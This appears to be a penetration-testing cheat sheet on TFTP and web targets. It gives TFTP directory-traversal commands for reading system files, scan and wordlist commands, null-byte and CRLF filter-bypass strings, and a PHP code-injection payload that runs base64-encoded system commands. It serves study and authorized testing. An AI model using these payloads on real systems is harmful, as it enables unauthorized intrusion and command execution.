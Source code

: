 TFTP commands
```bash
$ tftp
tftp> connect [target]
tftp> put [/path/to/local.txt]
tftp> get [/path/to/remote.txt]

# directory traversal
tftp> get ..\..\..\..\..\boot.ini
tftp> get \boot.ini
```


### Web [80, 8080, 443 TCP]

Tips
* ALWAYS run Nikto.
* ALWAYS run Gobuster.
* If you can't find anything from initial scans, recursively scan subdirs including those that you don't think contain anything e.g. `/icons`

Nmap script vuln scan
```bash
$ sudo nmap -v -sV -p80,443 --script vuln [target]
```

Brute-Force Logins
```bash
# generate wordlist from target website
$ cewl http://target.com
```

Filter / file extension bypass
```bash
%0d%0a
%00
%en
%00en
```

Arbitrary file disclosure / LFI / RFI
* Try all three if one works.

PHP code exec i.e. `eval()`
```bash
# Try different system command functions
system()
passthru()
exec()
shell_exec()

# Encode payload in base64 -> use base64_decode()
# You may need to URL encode base64 '=' equals to '%3d'
/index.php?b);system(base64_decode('INSERT_BASE64_ENCODED_SYSTEM_COMMAND')=/
```
